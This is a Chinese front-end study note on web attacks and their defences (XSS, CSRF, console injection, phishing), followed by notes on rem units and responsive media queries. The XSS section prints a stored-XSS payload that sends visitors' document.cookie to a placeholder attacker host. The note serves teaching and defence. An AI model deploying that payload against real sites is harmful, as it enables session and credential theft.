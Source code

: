 ### 1.web常见网络攻击

### XSS攻击

场景：恶意攻击者小t发现了某网站有一个没有添加XSS防御机制的留言功能，小t直接在漏洞位置（一般是`input`框）添加了以下代码:

```html
<script>
  <script type="text/javascript">document.write("<img src='http://xxx.xxx.xxx?c=" + escape(document.cookie) + "'>")</script>
</script>
```

留言一发布，这张图片就会暴露在留言板中。其他好奇宝宝一进入，自己的token就随着这个`img`标签发送到恶意服务器中了！

解决方案：

将所有请求数据进行敏感内容过滤。如：`<script>` `/?^*()`等等。要注意的是，我们应尽量使用成熟的转义库，因为我们单靠自己无法想出所有可能情况。（如大小写、html自带的容错机制、**利用过滤后的语句再次构成攻击**等）

并且，xss攻击的预防一般是在**后端**进行处理，绕过前端验证的方法太过简单！

### CSRF攻击

场景：小 t 在浏览一个常用的站点，突然发现站点顶部出现了一个弹框：“您的电脑存在高危漏洞！请及时修复！”小明点击之后发现自己来到了一个空白页，没过多久，发现自己常用的帐号已经被盗取了！

原理：原名**跨站请求伪造**，站点的登录信息一般都是存储在**cookie**中，之后的每个请求，都会将**cookie**携带。**第三方恶意站点**会把请求链接隐藏在一些隐蔽的或充满引导性的按钮中，用户一旦点击，**就会携带上包含了个人信息或登录信息的cookie跳转到恶意站点**，恶意站点就拥有了你的登录权限。

如：

```html
由于<img>标签的跨域特性，可以无视同源策略
<img style="width:0;" src="http://csrf.com"   />
```

因为**同源策略**的保护，CSRF攻击一般会跳转第三方站点中，这样更方便操控攻击，但是也可能是因为网站存在高危漏洞而发生在同源站点中！

解决方法1

直接拦截用户第三方链接跳转：在用户通过链接跳转站外时进行拦截，提醒用户是否是主动跳转，并提示用户恶意站点。

解决方法2：

[**CSRF Token**](https://stackoverflow.com/questions/5207160/what-is-a-csrf-token-what-is-its-importance-and-how-does-it-work)

1. 在用户进入站点时随机生成一个 CSRF Token（不同于信息token，而且不保存在cookie中），传递给用户并保存在服务器 session 中

2. 在相关链接的中（如在query中）添加该 CSRF Token

   `GET https:**//xxx.com?csrftoken=random**`

3. 服务器接收用户请求，先对比 CSRF Token，再验证cookie信息

由于恶意站点无法对操作原站点的信息，以这样双重验证的形式，一明一暗，确保用户信息安全。

### 控制台注入

场景：诱骗不懂技术的小白在控制台输入了恶意代码

解决方法：只需要在在控制台中添加提示文字即可。

### 钓鱼

场景：通过一些谣言或非官方信息，将用户引导至**官方高仿站点**，输入用户名和密码等信息。

解决方法：无…只能靠用户自己的意识了！

## rem原理

由于移动端屏幕大小不定的原因，使用 px 布局，会出现小屏显示不全，大屏显示太小的情况，这对用户体验是重大打击！所以就需要用到 rem 布局

rem是css中的一个单位。它并非一个固定值，它的大小由根元素（html标签）的`font-size`决定。如：根元素的`font-size:20px`,那么 1rem === 20px。

根据rem的这种特性，我们就可以**通过屏幕大小动态改变根元素的`font-size`值**，再使用rem布局来适应不同屏幕的不同大小问题。

另外提一嘴：em指的是当前元素的，rem指根元素（ r : root）。

那么一般如何设置 font-size 呢？

JavaScript版：

使用 js 获取屏幕宽度，设置根元素`font-size`

```
function calRootFontSize() {
		const html = document.documentElement;
    html.style.fontSize = html.getBoundingClientRect().width / 20 + 'px';
}
```

CSS版

巧妙地使用vw（可视宽度）单位，按照vw的百分比来配置。

```
html{
		font-size: 5.333333333vw; // 以iphone6为准
}

```

## 响应式优缺点以及实现

**优点：**

1. 能够自动适配不同屏幕尺寸，实现跨平台
2. 移动端和PC端可以给出友好的统一的布局界面
3. 减少了开发和运维的成本

**缺点：**

1. 由于移动端和PC端加载的是同一份资源，所以对移动端来说，增加了消耗（低分辨率的移动端加载了大于它显示能力的图片）
2. 增加了多余的加载（如移动端加载了PC端的CSS文件）
3. 代码太过庞大，某端的改动可能影响到其他界面的显示
4. 不支持 IE6/7/8 

**实现：**

最为常用的就是使用 CSS 的 `MediaQuery`

bootstrap栅格布局使用的`mediaQuery`

```
/* 超小屏幕（手机，小于 768px） */
/* 没有任何媒体查询相关的代码，因为这在 Bootstrap 中是默认的（还记得 Bootstrap 是移动设备优先的吗？） */

/* 小屏幕（平板，大于等于 768px） */
@media (min-width: @screen-sm-min) { ... }

/* 中等屏幕（桌面显示器，大于等于 992px） */
@media (min-width: @screen-md-min) { ... }

/* 大屏幕（大桌面显示器，大于等于 1200px） */
@media (min-width: @screen-lg-min) { ... }
```



